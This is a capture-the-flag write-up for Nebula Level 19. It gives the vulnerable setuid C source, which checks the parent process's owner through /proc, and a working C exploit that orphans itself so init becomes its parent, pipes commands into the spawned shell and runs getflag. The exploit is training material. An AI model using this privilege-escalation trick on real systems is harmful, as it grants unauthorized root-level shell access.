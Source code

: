 # Nebula - Level 19

### About ###

>There is a flaw in the below program in how it operates.
>
>To do this level, log in as the level19 account with the password level19 . Files for this level can be found in /home/flag19.

### Source code ###

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
    printf("Unable to check parent process\n");
    exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
    /* If root started us, it is ok to start the shell */

    execve("/bin/sh", argv, envp);
    err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```

### Solution ###

The shell can be started only if the process's parent is root.

To bypass this protection, a program could launch `/home/flag19/flag19`, then terminates immediately in order to make `/home/flag19/flag19` an orphan process.

That way, `init`, which is started as the user `root`, would get the latter as its child.

To achieve that, the following code is used.

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <string.h>

int main()
{
	/* The program forks, and the father returns immediately */
    if(fork()) return 0;
    
	/* The child waits one second for its father to die */
    sleep(1);

    int fds[2];									

    /* These commands will be sent to /home/flag19/flag19 via a pipe */	
    char cmd[] = "pwd\nwhoami\ngetflag\nexit\n";

    pipe(fds);			

    /* The child's stdin is closed */							
    close(STDIN_FILENO);

    /* One end of the pipe is set as the new stdin of the process */
    dup2(fds[0], STDIN_FILENO);

    /* The commands are written to the other end of the pipe */
    write(fds[1], cmd, strlen(cmd));
    char *const args[] = { "/bin/sh", NULL };

    /* /home/flag19/flag19 is started */
    execvp("/home/flag19/flag19", args);

    return 0;
}
```

And `getflag` is executed.

```
level19@nebula:/tmp$ gcc -o level19 level19.c
level19@nebula:/tmp$ ./level19
level19@nebula:/tmp$ /tmp
flag19
You have successfully executed getflag on a target account
```
